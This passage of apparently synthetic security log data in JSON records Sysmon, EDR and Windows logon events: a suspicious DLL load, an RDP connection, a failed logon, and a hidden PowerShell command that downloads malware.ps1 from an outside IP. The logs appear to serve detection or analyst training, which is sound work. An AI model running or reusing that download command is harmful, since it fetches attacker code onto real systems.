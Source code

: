 ```json
    "event_id": 7,
    "process": "svchost.exe",
    "image_loaded": "C:\\Windows\\Temp\\suspicious.dll",
    "hash": "a1b2c3d4e5f67890a1b2c3d4e5f67890a1b2c3d4e5f67890a1b2c3d4e5f67890",
    "user": "NT AUTHORITY\\SYSTEM",
    "host": "CORP-SRV01",
    "host_ip": "192.168.10.50"
  },
  {
    "timestamp": "2025-08-21T11:23:15.321Z",
    "log_source": "EDR",
    "alert_type": "Suspicious Module Load",
    "details": "Unknown DLL loaded by svchost.exe from C:\\Windows\\Temp\\suspicious.dll",
    "hash": "a1b2c3d4e5f67890a1b2c3d4e5f67890a1b2c3d4e5f67890a1b2c3d4e5f67890",
    "host": "CORP-SRV01",
    "user": "NT AUTHORITY\\SYSTEM"
  },
  {
    "timestamp": "2025-08-21T13:45:50.654Z",
    "log_source": "Sysmon",
    "event_id": 3,
    "source_ip": "192.168.10.15",
    "destination_ip": "198.51.100.99",
    "port": 3389,
    "protocol": "TCP",
    "process": "mstsc.exe",
    "user": "CORP\\charlie",
    "host": "CORP-WIN10-02"
  },
  {
    "timestamp": "2025-08-21T13:46:00.987Z",
    "log_source": "Windows Event Log",
    "event_id": 4625,
    "user": "CORP\\charlie",
    "logon_type": "RemoteInteractive",
    "host": "CORP-DC01",
    "host_ip": "192.168.10.5",
    "details": "Failed logon attempt from 192.168.10.15"
  },
  {
    "timestamp": "2025-08-21T15:00:12.321Z",
    "log_source": "Sysmon",
    "event_id": 1,
    "process": "powershell.exe",
    "parent_process": "explorer.exe",
    "command_line": "powershell.exe -nop -w hidden -c \"Invoke-WebRequest http://198.51.100.50/malware.ps1 -OutFile C:\\Temp\\malware.ps1\"",
    "user": "CORP\\dave",
    "host": "CORP-WIN12",
    "host_ip": "192.168.10.20",
    "process_id": 4096
  }
]
```

---